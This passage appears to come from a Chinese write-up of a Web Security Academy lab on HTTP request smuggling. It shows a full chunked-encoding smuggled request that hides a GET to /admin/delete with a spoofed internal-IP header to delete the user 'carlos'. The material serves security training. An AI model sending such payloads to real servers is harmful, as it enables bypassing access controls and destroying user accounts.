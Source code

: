 第二个请求中显示直接进入Admin面板

[![](assets/1704418275-088bc1a08d512b88ad6994084bad1035.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160001-18e6df50-aa0e-1.png)  
并发现两个用户和对应的删除操作选项  
[![](assets/1704418275-7b4d0b0a223ca4243735d696517dcba7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160018-22c99b3e-aa0e-1.png)  
随后我们直接使用前面的响应作为参考，更改走私的请求URL以删除用户carlos

```plain
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```
